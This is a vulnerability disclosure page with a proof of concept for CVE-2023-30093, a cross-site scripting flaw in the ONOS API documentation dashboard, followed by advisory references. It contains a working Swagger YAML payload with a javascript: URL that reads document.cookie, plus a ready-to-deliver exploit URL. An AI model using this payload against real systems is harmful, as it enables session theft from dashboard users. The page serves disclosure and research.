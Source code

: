 # CVE-2023-30093

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.

PoC
------

PoC for CVE-2023-30093: [@edoardottt Youtube video](https://www.youtube.com/watch?v=jZr2JhDd_S8)

Vulnerable endpoint: http://localhost:8181/onos/v1/docs/

Payload: 
```yaml
swagger: "2.0"
info:
  title: edoardottt XSS
  description: XSS ONOS POC
  version: 1.0.0
host: edoardoottavianelli.it
basePath: /v1
schemes:
  - https

securityDefinitions:
  OAuth2:
    type: oauth2
    flow: accessCode
    authorizationUrl: javascript:alert(document.cookie)//
    tokenUrl: https://example.com/oauth/token
    scopes:
      read: Grants read access
      write: Grants write access
      admin: Grants read and write access to administrative information
```

Malicious URL ready to be delivered: http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/917636d9b210d0b15c3a10cfff35ab33/raw/659a4ae263287dff740f386db4533ca042203cfe/onos-xss2-poc.yaml

References
------
- https://www.edoardoottavianelli.it/CVE-2023-30093
- https://nvd.nist.gov/vuln/detail/CVE-2023-30093
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30093
- https://github.com/advisories/GHSA-q63q-hwf6-3mw6
- https://www.tenable.com/cve/CVE-2023-30093
- https://www.opencve.io/cve/CVE-2023-30093
- https://avd.aquasec.com/nvd/2023/cve-2023-30093/
- https://cve.report/CVE-2023-30093
- https://security.snyk.io/vuln/SNYK-JAVA-ORGONOSPROJECT-5497342

<br>

Useful links while researching for this CVE:

- https://github.com/swagger-api/swagger-ui/pull/3848
- https://github.com/swagger-api/swagger-ui/issues/3847
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9
- https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef
- https://security.snyk.io/vuln/npm:swagger-ui:20171031
- https://security.snyk.io/vuln/npm:swagger-ui:20160721
- https://security.snyk.io/vuln/npm:swagger-ui:20160901
